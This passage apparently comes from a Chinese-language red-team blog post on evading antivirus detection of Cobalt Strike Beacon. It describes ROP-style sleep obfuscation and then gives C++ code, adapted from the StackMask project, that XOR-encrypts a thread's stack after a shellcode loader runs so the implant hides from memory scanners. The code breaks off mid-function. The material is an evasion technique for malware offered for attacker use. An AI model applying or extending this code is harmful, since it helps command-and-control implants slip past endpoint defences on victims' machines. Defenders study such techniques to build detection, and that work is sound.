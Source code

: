 上述这些操作使用到了与ROP相似的思路，ROP（Return-Oriented Programming，返回导向编程）技术是一种利用已存在于程序内存中的代码片段来绕过执行流程控制和安全措施的技巧。这些代码片段通常以“gadgets”（小工具）的形式存在，它们是程序已有代码中的小片段，以返回指令结束

在evasive_sleep函数中，通过控制堆栈上的返回地址，使之指向这些Gadgets(Windows Api)，这些gadgets最终形成了攻击者的payload，从而在没有新代码注入的情况下执行恶意操作



## 加密栈内存

当Beacon在目标机器上执行C2发来的命令时，这些命令的执行结果会发送到C2服务器，为了防止被检测到，这些结果字符串在传输过程中会被加密。当beacon处于“休眠”状态时，这些命令通常会以加密的形式存储在堆或栈内存中

比如在传统的shellcode加载器中，shellcode是存储在栈内存中(函数内部或外部的变量中)

![image-20231017160415389](利用CS的Profile文件实现免杀/image-20231017160415389.png)



即便使用WriteProcessMemory将shellcode写入VirtualAlloc申请的堆内存里了，但它仍然存储在栈中

![image-20231017160633225](利用CS的Profile文件实现免杀/image-20231017160633225.png)



该[github](https://github.com/WKL-Sec/StackMask/tree/main)项目为我们提供了加密栈内存的代码，其主要函数是EncryptThread，它从堆中检索XOR密钥，然后使用VirtualQuery函数计算出堆栈的栈底和大小，最后遍历整个堆栈，并使用XOR密钥进行加密

让我们将EncryptThread函数应用在shellcodeloader上，当shellcode执行完毕后，加密存放shellcode的堆栈，

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

// 函数：加密线程
DWORD WINAPI EncryptThread(LPVOID lpParameter) {
    // 在堆上保存XOR密钥，这样在堆栈加密过程中它不会改变
    char* key = (char*)malloc(13 * sizeof(char));
    strcpy(key, "myprivatekey");
    int keyLength = strlen(key);

    // 将参数转换为堆栈指针
    unsigned char* rsp = (unsigned char*)lpParameter;

    // 获取存储shellcode的堆栈的地址范围
    MEMORY_BASIC_INFORMATION mbi;
    VirtualQuery(rsp, &mbi, sizeof(mbi));

    // 计算堆栈基址（堆栈底部）及其大小
    unsigned char* stackRegion = mbi.BaseAddress - 8192;
    unsigned char* stackBase = stackRegion + mbi.RegionSize + 8192;
    int stackSize = stackBase - rsp;

    // 打印堆栈信息
    printf("[+] The address of stack region: 0x%p\n", stackRegion);
    printf("[+] The address of stack base: 0x%p\n", stackBase);
    printf("[+] The stack size: %d bytes\n", stackSize);

    // 使用XOR密钥掩码堆栈
    unsigned char* p = (unsigned char*)rsp;
    for (int i = 0; i < stackSize; i++) {
        *(p++) ^= key[i % keyLength];
    }

    printf("[+] Stack is encrypted\n");

    // 释放密钥
    free(key);
```